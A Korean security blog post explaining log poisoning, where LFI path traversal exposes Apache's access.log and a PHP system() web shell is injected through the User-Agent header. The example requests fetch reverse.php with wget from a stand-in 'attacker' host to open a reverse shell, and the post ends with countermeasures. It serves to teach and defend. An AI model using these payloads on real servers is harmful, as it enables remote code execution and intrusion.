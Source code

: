 ```yaml
---
layout: single
title: Log Poisoning
categories: Web-vuln
tag: [log injection, RCE, LFI, log poisoning]
toc: true
author_profile: false
---
```

# 해당 취약점은 무엇인가?
>log Poisoning은 웹 어플리케이션에서 발생하는 취약점으로, LFI 취약점이 존재하며, Log 파일을 열람이 가능할 때 발생하며, log injection과 LFI 취약점이 선행되어야 한다. 이를 통해 RCE 까지로 이어질 수 있는 취약점이다.

***

# 공격 앤드포인트 탐색
해당 취약점은 서버에 존재하는 로그파일에 사용자의 정보 및 입력값이 쓰여질 때 발생할 수 있으므로, LFI 취약점이 존재해야한다.
```
http://victim.com/lifendpoint?view=
```
위와 같이 특정 파일을 Include하는 기능이 존재 한다고 가정해보자.
View 파라미터에 LFI 취약점이 존재하고, apache2 서비스가 동작중일 경우 일반적으로 /var/log/apache2/access.log 로그파일에 접근할 수 있다.
access.log 파일의 경우 웹 서버에서 접근 로그파일로, 사용자의 User-Agent 헤더 정보가 기록된다.
이 떄 User-Agent 값을 악의적인 사용자가 임의로 변경하게되면 그 정보 혹은 결과값이 access.log 파일에 기록된다(log injection).
## LFI 취약점을 통한 Log 파일 열람 
해당 시스템에 Apachee2 서비스가 동작 중이라면 access.log가 존재한다.
```
http://victim.com/lifendpoint?view=../../../../var/log/apache2/access.log
```
위와 같이 LFI 취약점이 존재할 경우 경로이동을 통해 access.log 파일에 접근할 수 있다.
![그림1-1](/assets/image//vuln/web-vuln/log_poisoning/image.png)
해당 access.log 파일에는 사용자의 User-Agent 값이 담기게 된다.
이 떄 악의 적인 사용자가 User-Agent 에 악성 코드를 삽입할 수 있다.

만약 해당 타겟시스템의 서버측 언어가 PHP 로 동작할 경우
```<?php system($_GET['cmd']);?> ```와 같이 php의 시스템 명령이 가능한 코드를 삽입하게 되면, 서버에서 User-Agent 헤더를 해석하는 과정에서 php 코드로 인식하여 이를 실행하게 된다.
즉 ***<span style="color:red"> RCE 취약점 까지 이어질 수 있는 치명적인 취약점이라고 볼 수 있다. </span>*** 

즉, 공격자 PC에서 리버스 커넥션 기능을 하는 악성 코드를 생서 후 웹서버를 구동시켜놓고, 해당 User-Agent 헤더에 공격자 PC에서 악성코드를 가져와 실행 시키는 명령어를 실행실 수 있게 된다.

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=wget http://attacker/reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```

```
GET /victim.com/lifendpoint?view=../../../../var/log/apache2/access.log&cmd=php reverse.php

'''

User-Agent: <?php system($_GET['cmd']; ?)>
```
이를 통해 악성스크립트가 실행되며, 공격자 서버로의 Reverse Connection이 이루어지게된다.

# 대응방안
1. 로그 파일에 기록되는 이벤트 필터링을 통해, 정상적은 형식과 속성인지 검증 과정이 존재해야 한다.
2. 로그 파일을 암호화 하여, 외부에서의 데이터 변경 및 조작을 방지한다.
3. 로그 파일에 대한 접근 제어 및 권한부여를 통해 외부에서 데이터 변경 및 조작을 방지한다.
4. 실시간 모니터링을 통한 이상 징후를 탐지한다.
5. 정기적으로 로그파일에 대해 백업 및 무결성 검사를 실시한다.
6. 사용자 입력값에 대해 비정상적인 입력값이 들어오는지에 대한 입력값 검증이 필요하다.